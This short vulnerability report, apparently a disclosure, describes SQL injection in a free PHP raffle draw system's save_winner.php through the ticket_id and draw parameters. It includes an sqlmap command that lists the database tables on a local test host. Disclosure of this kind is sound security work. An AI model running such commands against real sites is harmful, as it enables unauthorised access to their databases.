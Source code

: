 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $ticket_id,$draw

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/213212761-0653e1c1-e3cc-4c8c-8357-c66f548faf91.png)

sqlmap.py -u "http://192.168.249.88/php-js-raffle-draw/save_winner.php" --data "ticket_id=1&draw=1" -D raffle_db --tables

![image](https://user-images.githubusercontent.com/30823782/213212862-2fb55095-2b11-4190-946e-e5bccb5b3770.png)

